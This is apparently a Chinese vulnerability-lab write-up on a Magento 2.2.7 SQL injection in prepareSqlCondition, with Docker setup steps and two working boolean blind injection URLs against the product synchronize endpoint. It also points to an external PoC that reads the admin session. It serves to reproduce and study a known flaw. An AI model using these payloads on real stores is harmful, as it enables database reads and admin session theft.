

# Magento 2.2 SQL注入漏洞

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

执行如下命令启动Magento 2.2.7：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：


## 漏洞复现

分别访问如下链接：

- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+->
- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+->

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：




通过改变OR的条件，即可实现SQL BOOL型盲注。

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：


